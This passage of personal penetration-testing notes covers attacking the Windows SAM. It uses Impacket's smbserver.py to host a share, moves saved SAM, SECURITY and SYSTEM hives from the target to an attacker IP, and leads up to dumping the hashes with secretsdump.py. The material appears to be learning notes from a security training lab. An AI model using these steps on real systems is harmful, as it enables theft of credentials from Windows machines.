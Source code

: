 ```

#Essentials #Helpful #Bruteforce #Tool #HC #HashCat

---
### SAM Attacks
[[Impacket]] #Bruteforce 
Creating a Share with smbserver.py

All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the directory on our attack host where the share will be storing the hive copies (/home/ltnbob/Documents). Know that the smb2support option will ensure that newer versions of SMB are supported. If we do not use this flag, there will be errors when connecting from the Windows target to the share hosted on our attack host. Newer versions of Windows do not support SMBv1 by default because of the numerous severe vulnerabilites and publicly available exploits.

```python

TheCyberScythe@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Once we have the share running on our attack host, we can use the move command on the Windows target to move the hive copies to the share.
Moving Hive Copies to Share
```python


C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using ls to list the files.
Confirming Hive Copies Transferred to Attack Host

```python

TheCyberScythe@htb[/htb]$ ls

sam.save  security.save  system.save

Dumping Hashes with Impacket's secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's secretsdump.py. Impacket can be found on most modern penetration testing distributions. We can check for it by using locate on a Linux-based system:
Locating secretsdump.py
Attacking SAM

TheCyberScythe@htb[/htb]$ locate secretsdump 
```
